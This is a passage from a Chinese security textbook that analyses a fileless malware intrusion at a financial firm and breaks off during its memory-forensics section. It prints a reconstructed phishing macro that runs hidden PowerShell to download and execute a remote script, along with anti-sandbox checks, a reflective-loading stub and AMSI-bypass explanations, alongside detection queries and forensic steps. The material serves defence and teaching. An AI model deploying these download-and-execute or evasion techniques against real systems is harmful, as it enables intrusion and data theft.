






## 24.6 案例六：无文件恶意软件攻击分析

### 24.6.1 案例背景

#### 事件概述

2024年11月，某金融科技企业SOC团队在SIEM平台告警中注意到，多台域控服务器在凌晨时段出现大量可疑PowerShell进程。进一步排查发现，攻击者已经通过钓鱼邮件入侵内网，利用纯内存技术（Living-off-the-Land）在不落地任何可执行文件的情况下完成了从初始访问到数据窃取的全链路攻击。这是一起典型的无文件恶意软件（Fileless Malware）攻击事件。

**攻击影响量化：**

| 维度 | 数据 |
|------|------|
| 入侵持续时长 | 约14天（从首次钓鱼到发现） |
| 受影响主机 | 23台（含3台域控、8台文件服务器、12台员工终端） |
| 数据泄露量 | 约4.2GB（含客户资料、内部财务报表） |
| 攻击者驻留方式 | 100%内存驻留，磁盘上无可执行恶意文件 |
| 传统杀毒检测率 | 0/46（VirusTotal上所有引擎均未在初始阶段告警） |
| 应急响应耗时 | 72小时（含取证、溯源、清除、加固） |

#### 什么是无文件恶意软件

无文件恶意软件是一种不依赖磁盘可执行文件的攻击技术。攻击者利用操作系统自身的合法工具（如PowerShell、WMI、.NET Framework、注册表、Office宏等）在内存中完成恶意代码的加载和执行。由于整个攻击生命周期中不产生传统的恶意文件，传统基于文件签名的杀毒软件几乎无法检测。

理解无文件恶意软件的关键在于"无文件"并不意味着"无痕迹"——攻击者只是将恶意代码的存储位置从磁盘转移到了内存、注册表、WMI仓库等非传统位置。这种转移使得基于文件哈希（Hash）和文件签名的检测方式失效，但行为分析、内存取证和日志审计仍然能够捕捉到攻击痕迹。

**无文件恶意软件的核心特征：**



#### 无文件恶意软件的演进历史

理解无文件恶意软件的演进历程有助于分析其技术走向：

| 阶段 | 时间 | 代表技术 | 特征 |
|------|------|---------|------|
| 萌芽期 | 2001-2010 | CodeRed、SQL Slammer | 内存驻留蠕虫，利用漏洞传播 |
| 发展期 | 2011-2015 | PowerSploit、Empire | PowerShell武器化框架出现 |
| 成熟期 | 2016-2018 | Kovter、FruitFly | 注册表持久化、反射加载 |
| 高级期 | 2019-2022 | Astaroth、Emotet | 多层LOLBin链、Living-off-the-Land |
| 当代 | 2023-至今 | BatLoader、QakBot变种 | 合法签名利用、EDR对抗、内存混淆 |

> **知识点：为什么攻击者偏好无文件技术？** 根据Ponemon Institute的2024年报告，无文件攻击的成功率是有文件攻击的10倍，而传统杀毒软件对无文件攻击的检测率仅为30-40%。攻击者投入少、收益高、被发现概率低，这使得无文件技术成为APT组织和高级威胁行为者的标配能力。

**APT组织使用无文件技术的真实案例：**

| APT组织 | 别名 | 使用的无文件技术 | 攻击目标 |
|---------|------|----------------|---------|
| APT29 | Cozy Bear / Nobelium | PowerShell内存加载器 + WMI持久化 | 政府机构、SolarWinds供应链攻击 |
| APT41 | Winnti Group | 注表存储载荷 + .NET反射加载 | 游戏公司、医疗行业 |
| Lazarus Group | Hidden Cobra | 内存驻留DLL + COM对象劫持 | 金融机构、加密货币交易所 |
| Turla | Snake / Venomous Bear | PowerShell + WMI + 注册表多层持久化 | 大使馆、政府网络 |
| FIN7 | Carbanak | 脚本下载器 + 进程注入 | 零售、酒店行业 |

这些组织大量采用无文件技术的原因不仅是隐蔽性，还因为这些技术天然具备"反取证"特性——重启后内存中的恶意代码自动消失，给事后调查制造巨大困难。

### 24.6.2 无文件恶意软件的技术原理

#### Living-off-the-Land（LOL）技术栈

无文件恶意软件的核心理念是"借用系统自身的武器"——使用操作系统和已安装软件中已有的合法工具执行恶意操作。LOL技术栈包括以下关键组件：

**LOLBin（Living-off-the-Land Binaries）分类：**

| 类别 | 工具 | 攻击用途 | 伪装理由 |
|------|------|---------|---------|
| 脚本引擎 | powershell.exe, wscript.exe, cscript.exe, mshta.exe | 下载执行恶意代码 | 系统管理工具，白名单通常放行 |
| 编译/执行 | csc.exe, vbc.exe, jsc.exe | 编译内存中的.NET代码 | 编译器本身不触发告警 |
| 文件传输 | certutil.exe, bitsadmin.exe, expand.exe | 下载远程文件到内存 | 证书管理/下载工具，运维常用 |
| 注册操作 | regsvr32.exe, rundll32.exe | 加载恶意DLL/脚本 | 组件注册工具，系统正常操作 |
| 管理工具 | wmic.exe, schtasks.exe | 横向移动与持久化 | 系统管理命令 |
| 压缩/编码 | makecab.exe, base64.exe | 绕过内容过滤 | 归档工具 |
| 安装程序 | msiexec.exe, installutil.exe | 执行恶意代码 | 安装工具，系统组件 |
| 调试/诊断 | msdt.exe, pcwrun.exe, explorer.exe | 执行任意代码 | 系统诊断工具 |

**典型LOLBin攻击链示例：**


每一步都使用系统自带的合法二进制文件，不会触发基于文件签名的告警。整个攻击链中没有一个字节被写入磁盘——这就是Living-off-the-Land的精髓。

**PowerShell在无文件攻击中的核心地位：**

PowerShell是Windows系统最强大的脚本引擎，同时也是无文件恶意软件的首选载体。攻击者选择PowerShell的原因：

1. **系统原生**：Windows 7及以上版本内置PowerShell，无需额外安装
2. **功能强大**：可直接调用.NET API、WMI对象、COM接口、Win32 API
3. **远程能力**：PowerShell Remoting（WinRM）天然支持远程代码执行
4. **内存执行**：`Invoke-Expression`可直接在内存中执行任意代码
5. **Base64编码**：`-EncodedCommand`参数支持Base64编码命令，绕过简单内容过滤
6. **AMSI绕过技术成熟**：社区持续研究反检测方法，AMSI绕过技术不断更新

**PowerShell执行模式与安全上下文：**

| 执行模式 | 命令示例 | 安全影响 |
|---------|---------|---------|
| 直接执行 | `powershell -Command "恶意命令"` | 最简单，但可能触发进程创建告警 |
| 编码执行 | `powershell -EncodedCommand <Base64>` | 绕过命令行内容检测，但Event 4103会记录解码后内容 |
| 文件下载执行 | `IEX(New-Object Net.WebClient).DownloadString('url')` | 完全内存执行，磁盘无文件 |
| 反射加载 | `[System.Reflection.Assembly]::Load($bytes)` | 在当前进程内执行，不创建新进程 |
| 约束语言模式绕过 | 使用.NET直接调用Win32 API | 绕过PowerShell语言限制 |

#### .NET反射加载机制

反射加载（Reflection Loading）是无文件恶意软件的核心执行技术之一。攻击者利用.NET Framework的`System.Reflection`命名空间，将恶意程序集直接从内存（字节数组）加载到进程空间，完全绕过文件系统：

```csharp
// 反射加载的基本原理（概念示例）
// 实际攻击中这些字节数组来自Base64解码或远程下载
byte[] maliciousAssembly = GetAssemblyFromMemory(); // 从内存获取字节数组
Assembly asm = Assembly.Load(maliciousAssembly);     // 直接从内存加载程序集
Type type = asm.GetType("Malware.Payload");          // 获取类型
MethodInfo method = type.GetMethod("Execute");       // 获取方法
method.Invoke(null, new object[] { });               // 执行
```

**为什么反射加载难以检测：**
- 程序集从未写入磁盘，文件系统监控无法发现
- 加载发生在目标进程内，进程列表中不会出现新进程
- 字节数组在传输过程中可加密/压缩，网络检测难度大
- .NET运行时的合法行为，行为分析需要精细建模才能区分

**反射加载的变种技术：**

| 技术 | 原理 | 检测难度 | 说明 |
|------|------|---------|------|
| `Assembly.Load(byte[])` | 从字节数组加载 | 中 | 基础反射加载，ETW可捕获 |
| `Assembly.LoadFile(path)` | 从文件路径加载 | 低 | 需要磁盘文件，非真正无文件 |
| `Assembly.Load(Stream)` | 从流加载 | 中-高 | 可通过内存流绕过 |
| `AppDomain.Load` | 在新AppDomain加载 | 高 | 域隔离增加检测复杂度 |
| `Delegate.CreateDelegate` | 创建委托执行 | 高 | 绕过标准反射检测 |
| `DynamicMethod + ILGenerator` | 动态生成方法 | 极高 | 运行时生成MSIL，无程序集痕迹 |

#### WMI作为攻击基础设施

WMI（Windows Management Instrumentation）不仅是管理工具，更是高级攻击者的理想攻击基础设施：



**WMI持久化机制详解：**

WMI事件订阅由三个核心组件组成：

| 组件 | 类 | 作用 | 攻击者设置 |
|------|-----|------|----------|
| 事件过滤器 | `__EventFilter` | 定义触发条件 | 定时器、系统启动、用户登录等事件 |
| 事件消费者 | `__EventConsumer` | 定义触发后执行的动作 | 运行PowerShell脚本、创建进程 |
| 过滤器绑定 | `__FilterToConsumerBinding` | 将过滤器与消费者关联 | 绑定上述两个组件 |

WMI持久化相比注册表/计划任务更隐蔽的原因：
- 数据存储在WMI仓库（`%SystemRoot%\System32\wbem\Repository\`）的二进制数据库中，非明文
- 管理工具（如Autoruns）在早期版本中不扫描WMI持久化
- 需要专门的WMI查询才能发现，运维人员通常不会常规检查

**WMI事件消费者类型对比：**

| 消费者类型 | 类名 | 执行方式 | 隐蔽性 | 适用场景 |
|-----------|------|---------|--------|---------|
| 命令行消费者 | `CommandLineEventConsumer` | 创建新进程执行命令 | 中 | 执行PowerShell、cmd等脚本 |
| 活动脚本消费者 | `ActiveScriptEventConsumer` | 执行VBScript/JScript | 高 | 不经过PowerShell引擎，绕过PS日志 |
| 日志文件消费者 | `LogFileEventConsumer` | 写入日志文件 | 低 | 记录信息，较少用于攻击 |
| SMTP消费者 | `SMTPEventConsumer` | 发送邮件 | 中 | 信息外传，较少使用 |
| NTEventLog消费者 | `NTEventLogEventConsumer` | 写入事件日志 | 低 | 信息收集 |

`ActiveScriptEventConsumer`是攻击者经常使用的隐蔽手段——它直接执行VBScript/JScript代码，完全绕过PowerShell日志体系，因此即使PowerShell脚本块日志已启用，也可能遗漏这类攻击活动。

### 24.6.3 攻击链深度分析

本次事件的完整攻击链遵循MITRE ATT&CK框架，按Kill Chain模型还原如下：



#### 阶段一：初始访问（T1566.001 钓鱼附件）

攻击者发送伪装为发票通知的钓鱼邮件，附件为带恶意宏的Word文档：

```text
邮件主题：FY2024-Q4 Invoice #INV-2847（2024年Q4发票）
发件人：accounting@supplier-domain.com（已接管的合法供应商邮箱）
附件：Invoice_2847.docx（74KB，包含AutoOpen宏）
```

**恶意宏代码分析（逆向提取）：**

```vba
Sub AutoOpen()
    ' 表面：显示伪造的"正在加载文档内容"提示
    Application.DisplayAlerts = False
    
    ' 核心恶意逻辑：调用PowerShell下载并执行远程脚本
    Dim psCommand As String
    psCommand = "powershell -NoProfile -NonInteractive -WindowStyle Hidden " & _
                "-ExecutionPolicy Bypass " & _
                "-Command ""IEX(New-Object Net.WebClient)." & _
                "DownloadString('https://cdn-assets-update[.]com/docs/verify.ps1')"""
    
    Shell psCommand, vbHide
End Sub
```

**关键分析点：**
- `-WindowStyle Hidden`：隐藏PowerShell窗口，用户不可见
- `-ExecutionPolicy Bypass`：绕过PowerShell执行策略限制
- `IEX`（`Invoke-Expression`缩写）：直接在内存中执行下载的脚本，不写入磁盘
- `DownloadString`：通过HTTP/HTTPS下载脚本内容为字符串，而非文件

**Office宏攻击的社会工程学特征：**

攻击者在钓鱼邮件中使用了以下社会工程学技巧增加宏启用率：
1. **伪造预览提示**：文档打开后显示"此文档已加密，请启用宏以查看完整内容"
2. **仿冒品牌**：文档内嵌供应商Logo，提高可信度
3. **紧迫感**：主题包含"Q4 Invoice"和具体编号，营造财务催款的紧迫感
4. **利用合法邮箱**：发件人是已被攻陷的真实供应商邮箱，通过SPF/DKIM验证

#### 阶段二：执行与载荷投递（T1059.001）

远程下载的`verify.ps1`是一个多阶段加载器，工作流程如下：

**第一阶段：环境探测与反沙箱**

```powershell
# 阶段1：环境探测（简化还原）
# 检查是否在沙箱环境中运行
$checks = @(
    # 检查CPU核心数（沙箱通常分配1-2核）
    (Get-WmiObject Win32_Processor).NumberOfCores -lt 2,
    # 检查物理内存（沙箱通常<4GB）
    (Get-WmiObject Win32_ComputerSystem).TotalPhysicalMemory -lt 4GB,
    # 检查最近是否安装了分析工具
    (Get-Process -Name "wireshark","procmon","x64dbg","ida","olly" -ErrorAction SilentlyContinue),
    # 检查鼠标移动记录（真实用户有鼠标活动）
    [System.Windows.Forms.Cursor]::Position.X -eq 0,
    # 检查系统运行时间（沙箱通常运行时间很短）
    (Get-CimInstance Win32_OperatingSystem).LastBootUpTime -gt (Get-Date).AddHours(-1),
    # 检查网络适配器数量（真实环境通常有多个）
    (Get-CimInstance Win32_NetworkAdapter).Count -lt 2,
    # 检查磁盘大小（虚拟机通常磁盘较小）
    (Get-CimInstance Win32_LogicalDisk).Size -lt 80GB
)

if ($checks -contains $true) {
    Write-Verbose "Sandbox detected, exiting..."
    exit
}
```

攻击者使用了多维度的反沙箱检查：CPU核数、内存大小、分析工具进程、鼠标活动、系统运行时间、网络适配器数量和磁盘大小。任何一项异常都会导致载荷拒绝执行，这使得自动化沙箱分析工具（如Cuckoo Sandbox、Any.Run）在默认配置下难以捕获实际恶意行为。

**第二阶段：内存加载主载荷**

```powershell
# 阶段2：从Base64解码并反射加载.NET载荷
$encodedPayload = "TVqQAAMAAAAEAAAA..."  # 数十KB的Base64编码.NET程序集
$bytes = [Convert]::FromBase64String($encodedPayload)

# 使用.NET反射加载，程序集仅存在于内存中
$assembly = [System.Reflection.Assembly]::Load($bytes)
$instance = $assembly.CreateInstance("Loader.EntryPoint")
$instance.Run()  # 执行主逻辑
```

**第三阶段：PowerShell脚本块日志中的痕迹**

即使攻击者使用了多种规避手段，PowerShell的脚本块日志（Event ID 4104）仍然会记录下关键的执行痕迹：

```powershell
# 分析PowerShell脚本块日志 - 定位恶意执行记录
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104
    StartTime = (Get-Date).AddDays(-14)
} | Where-Object {
    # 筛选高风险关键词
    $_.Message -match 'IEX|Invoke-Expression|FromBase64|DownloadString|Reflection\.Assembly|Net\.WebClient|Invoke-WebRequest|Start-BitsTransfer|DownloadFile'
} | Select-Object TimeCreated, 
    @{N='Computer';E={$_.MachineName}},
    @{N='UserID';E={$_.UserId}},
    @{N='ScriptBlock';E={
        # 截取前500字符以避免输出过长
        if ($_.Message.Length -gt 500) {
            $_.Message.Substring(0, 500) + "...[truncated]"
        } else {
            $_.Message
        }
    }} | Format-List
```

**脚本块日志关键发现示例：**

```text
TimeCreated  : 2024-11-08 02:14:33
Computer     : DC-PROD-01.corp.local
UserID       : S-1-5-21-...-1107
ScriptBlock  : $bytes=[System.Convert]::FromBase64String('TVqQAA...');
               [System.Reflection.Assembly]::Load($bytes)

TimeCreated  : 2024-11-08 02:14:35
Computer     : DC-PROD-01.corp.local
UserID       : S-1-5-21-...-1107
ScriptBlock  : IEX(New-Object Net.WebClient).DownloadString('https://cdn-assets...')
```

**PowerShell日志体系全面解析：**

| 日志类型 | Event ID | 记录内容 | 启用方式 |
|---------|----------|---------|---------|
| 脚本块日志 | 4104, 4105, 4106 | 每个PowerShell脚本块的执行记录，包含混淆后还原的代码 | GPO: Turn on PowerShell Script Block Logging |
| 模块日志 | 4103 | 加载的模块和模块中的命令执行 | GPO: Turn on Module Logging |
| 转录日志 | — | 完整的输入/输出文本记录到指定目录 | GPO: Turn on PowerShell Transcription |
| 引擎启动日志 | 400, 600 | PowerShell引擎生命周期事件（自动启用） | 默认开启 |
| 远程会话日志 | 8193, 8194, 8197 | PSRemoting远程连接记录 | WinRM服务自动记录 |

> **关键提醒：** 脚本块日志是分析无文件恶意软件最重要的数据源。如果目标环境未启用该日志，分析工作将极其困难。建议在GPO中全局启用"Turn on PowerShell Script Block Logging"并勾选"Log script block invocation start / stop events"。

#### AMSI（反恶意软件扫描接口）架构与对抗

AMSI是微软在Windows 10 / Server 2016中引入的安全接口，旨在解决脚本语言（PowerShell、VBScript、JScript等）的恶意代码检测难题。AMSI在代码执行前将内容传递给已注册的反恶意软件引擎进行扫描，理论上可以在恶意脚本执行前拦截。

**AMSI工作流程：**



**AMSI的检测范围：**

| 脚本引擎 | AMSI集成状态 | 检测内容 |
|---------|-------------|---------|
| PowerShell 5.0+ | 已集成 | 脚本内容、命令行、表达式 |
| VBScript | Windows 10+ | 脚本内容 |
| JScript | Windows 10+ | 脚本内容 |
| VBA宏 | Office 2016+ | 宏代码内容 |
| .NET程序集 | 部分集成 | 动态生成的代码 |

**常见AMSI绕过技术分类：**

攻击者使用多种方法绕过AMSI检测，这些技术可分为以下几类：

| 绕过类别 | 技术原理 | 检测方法 | 防御措施 |
|---------|---------|---------|---------|
| 内存补丁 | 修改amsi.dll在内存中的代码，使`AmsiScanBuffer`函数始终返回"无威胁" | ETW `Microsoft-Antimalware-Scan-Interface` provider监控 | Credential Guard / 代码完整性保护 |
| DLL卸载 | 在AMSI初始化前将amsi.dll从进程空间卸载 | 检测`LoadLibrary`/`FreeLibrary`调用序列 | 强制DLL加载策略 |
| COM劫持 | 注册恶意COM对象替代AMSI接口 | 注册表监控（HKCR\CLSID键值变更） | 注册表ACL加固 |
| PowerShell降级 | 使用PowerShell 2.0（无AMSI支持）执行恶意代码 | 进程命令行监控（`-Version 2`参数） | 卸载PowerShell 2.0引擎 |
| 反射注入 | 使用非托管代码（C/C++）直接调用Win32 API绕过AMSI | 内存完整性检查 | EDR行为检测 |

**典型的AMSI内存补丁技术（以`AmsiScanBuffer`补丁为例）：**

```csharp
// 概念说明：攻击者通过修改amsi.dll的内存使扫描函数返回失败
// 这段代码展示了攻击原理，用于防御方理解绕过机制
//
// 攻击步骤：
// 1. 获取amsi.dll中AmsiScanBuffer函数的地址
// 2. 修改函数入口处的字节，使其立即返回AMSI_E_NOT_INITIALIZED
// 3. 后续所有AMSI扫描调用都会"成功"（返回未初始化状态）
//
// 防御检测点：
// - ETW event: Microsoft-Antimalware-Scan-Interface provider
// - Sysmon Event ID 8 (CreateRemoteThread) + Event ID 10 (ProcessAccess)
// - EDR内存完整性监控
```

**防御AMSI绕过的措施：**

1. **启用Credential Guard**：阻止对系统进程的内存修改
2. **部署支持AMSI的EDR**：如CrowdStrike、SentinelOne，可以检测AMSI补丁行为
3. **监控PowerShell版本降级**：告警`powershell.exe -Version 2`执行
4. **卸载PowerShell 2.0**：`Disable-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2Root`
5. **启用ETW AMSI Provider**：实时监控`AmsiScanBuffer`调用结果

#### ETW（Windows事件追踪）在无文件攻击检测中的应用

ETW（Event Tracing for Windows）是Windows内核级的事件追踪框架，比传统事件日志更底层、更实时。对于无文件攻击检测，ETW提供了关键的可见性：

**ETW Provider及其在无文件攻击检测中的价值：**

| ETW Provider | GUID | 检测能力 |
|-------------|------|---------|
| `Microsoft-Windows-PowerShell` | `{A0C1853B-5C40-4B15-8766-3CF1C58F985A}` | PowerShell脚本执行、命令调用 |
| `Microsoft-Antimalware-Scan-Interface` | `{2A576B87-09A7-520E-7B94-3E65717182B3}` | AMSI扫描结果、绕过检测 |
| `Microsoft-Windows-DotNETRuntime` | `{E13C0D23-CCBC-4E12-931B-D9CC2EEE27E4}` | .NET程序集加载、反射操作 |
| `Microsoft-Windows-WMI-Activity` | `{1418EF04-B0B4-4623-BF7E-D75AB47B0C00}` | WMI查询和事件订阅 |
| `Microsoft-Windows-Kernel-Process` | `{22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}` | 进程创建、线程注入 |
| `Microsoft-Windows-WinRM` | `{A7975C8F-AC13-49F1-87DA-5A984A4AB417}` | WinRM远程会话 |

**使用ETW实时监控PowerShell和AMSI活动：**

```powershell
# 使用PowerShell的Get-WinEvent查询ETW Provider（无需额外工具）

# 查询AMSI Provider的事件（如果启用了ETW日志）
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104
} -MaxEvents 50 | ForEach-Object {
    # 提取AMSI相关的关键信息
    if ($_.Message -match 'Amsi|amsi\.dll|AmsiScanBuffer') {
        [PSCustomObject]@{
            Time = $_.TimeCreated
            Machine = $_.MachineName
            EventID = $_.Id
            Detail = $_.Message.Substring(0, [Math]::Min(500, $_.Message.Length))
        }
    }
}

# 使用Sysmon的ETW集成监控进程注入
# Sysmon配置（sysmonconfig.xml中启用进程访问监控）
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID = 10  # ProcessAccess - 检测LSASS内存访问
} | Where-Object {
    $_.Message -match 'lsass|amsi'
} | Select-Object TimeCreated, MachineName, Message | Format-List
```

> **关键知识点：** ETW相比传统事件日志的优势在于它的数据源是内核级别的，攻击者更难篡改或禁用。然而，高级攻击者也开发了ETW补丁技术（修改`NtTraceEvent`函数入口），因此防御方应使用受保护的ETW消费者（Protected Process Light，PPL）来防止ETW被绕过。

#### 进程注入与内存操控技术

进程注入是无文件恶意软件实现"在合法进程内执行恶意代码"的核心技术。本案例中攻击者使用了多种注入方法：

**常见进程注入技术对比：**

| 技术 | 原理 | 检测方法 | 隐蔽性 |
|------|------|---------|--------|
| 反射式DLL注入 | 将DLL直接从内存加载到远程进程，不经过`LoadLibrary` | malfind (RWX内存段)、ETW | 高 |
| 进程空洞化（Process Hollowing） | 挂起合法进程，替换其内存内容后恢复执行 | 进程路径与映像不匹配检测 | 极高 |
| APC注入 | 向目标进程的线程APC队列投递恶意函数 | Sysmon Event ID 8 | 中 |
| 线程劫持 | 挂起目标线程，修改其上下文执行恶意代码 | 线程起始地址异常检测 | 高 |
| AtomBombing | 使用Atom Table向目标进程写入代码 | ETW + 内存监控 | 极高 |
| Early Bird注入 | 在进程创建初期（挂起态）注入代码 | 进程创建监控 | 高 |
| .NET反射加载 | 在当前进程内加载.NET程序集 | AMSI + ETW .NET Provider | 中-高 |

**进程空洞化（Process Hollowing）详解：**

进程空洞化是高级攻击者偏爱的注入技术，其工作原理如下：



**检测进程空洞化的方法：**

```powershell
# 检测进程空洞化：比较磁盘映像与内存映像
# 原理：如果进程的磁盘文件内容与内存中的代码不同，说明被"掏空"了

function Get-HollowedProcess {
    $suspicious = @()
    
    Get-Process | ForEach-Object {
        $proc = $_
        try {
            # 获取进程的可执行文件路径
            $diskPath = $proc.MainModule.FileName
            if (-not $diskPath -or -not (Test-Path $diskPath)) { return }
            
            # 比较磁盘文件头与内存文件头
            # 合法进程的MZ头（0x4D5A）应该在内存和磁盘中一致
            $memBytes = New-Object byte[] 2
            [System.Runtime.InteropServices.Marshal]::Copy(
                $proc.MainModule.BaseAddress, $memBytes, 0, 2
            )
            
            $diskBytes = [System.IO.File]::ReadAllBytes($diskPath)[0..1]
            
            # 检查PE头是否匹配
            if ($memBytes[0] -ne $diskBytes[0] -or $memBytes[1] -ne $diskBytes[1]) {
                $suspicious += [PSCustomObject]@{
                    Process = $proc.ProcessName
                    PID = $proc.Id
                    Path = $diskPath
                    MemHeader = [BitConverter]::ToString($memBytes)
                    DiskHeader = [BitConverter]::ToString($diskBytes)
                    Suspicion = "PE header mismatch - possible hollowing"
                }
            }
        } catch {
            # 跳过无法访问的进程
        }
    }
    
    return $suspicious
}

# 执行检测
$hollowed = Get-HollowedProcess
if ($hollowed) {
    Write-Host "[!] 发现可能的进程空洞化：" -ForegroundColor Red
    $hollowed | Format-Table -AutoSize
}
```

### 24.6.4 内存取证分析

内存取证是对抗无文件恶意软件的核心手段。由于恶意代码仅存在于RAM中，内存镜像（Memory Dump）是唯一能够完整捕获攻击痕迹的证据来源。

#### 内存获取

```bash
# 方法1：使用WinPmem获取Windows内存镜像（推荐）
winpmem_mini_x64.exe memory.raw
# 输出：memory.raw（与物理内存等大的原始镜像）

# 方法2：使用DumpIt（Comae工具）
DumpIt.exe
# 自动生成内存镜像文件

# 方法3：使用Belkasoft RAM Capturer
RamCapturer64.exe /output:E:\forensics\memdump.raw
```

**内存获取时的关键注意事项：**

| 注意事项 | 说明 | 原因 |
|---------|------|------|
| 优先级最高 | 在任何修复操作之前获取内存 | 重启或清除会丢失RAM中的所有证据 |
| 避免写入目标磁盘 | 将镜像保存到外部存储设备 | 写入操作可能覆盖磁盘上的其他证据 |
| 记录时间戳 | 记录内存获取的精确时间 | 与日志时间线对齐的关键 |
| 计算哈希 | 对镜像文件计算SHA-256 | 确保证据链完整性 |
| 多次获取 | 间隔5-10分钟获取两次 | 对比确认内存内容是否变化（活跃攻击） |

#### 使用Volatility进行内存分析

```bash
# 基础信息：识别系统概况
vol.py -f memory.dmp windows.info
# 获取操作系统版本、内核基址、DTB等信息，用于后续分析的Profile选择

# 1. 进程列表分析 - 发现可疑PowerShell进程
